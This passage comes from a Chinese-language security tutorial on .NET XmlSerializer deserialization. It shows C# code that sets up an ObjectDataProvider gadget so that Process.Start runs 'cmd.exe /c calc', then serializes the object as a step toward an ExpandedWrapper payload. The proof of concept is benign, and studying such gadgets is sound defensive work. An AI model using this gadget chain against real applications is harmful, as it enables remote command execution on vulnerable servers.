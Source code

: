 ![image-20240328111737699](images/4.png)

如果要看调用分析可以参考https://www.cnblogs.com/zpchcbd/p/17180208.html#/

## ExpandedWrapper

现在已经知道了通过ObjectDataProvider可以调用到process来执行命令了，那又怎么触发这个ObjectDataProvider呢，实际上就是使用XmlSerializer，那么我们就可以搭配反序列化了，首先来序列化一下

```c#
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Data;
using System.Xml.Serialization;

namespace XmlDeserialization
{
   
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            objectDataProvider.MethodName = "Start";
            objectDataProvider.MethodParameters.Add("cmd.exe");
            objectDataProvider.MethodParameters.Add("/c calc");
            objectDataProvider.ObjectInstance = new Process();
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(Object));
            MemoryStream memoryStream = new MemoryStream();
            TextWriter textWriter = new StreamWriter(memoryStream);
            xmlSerializer.Serialize(textWriter, objectDataProvider);
        }
    }
}
```

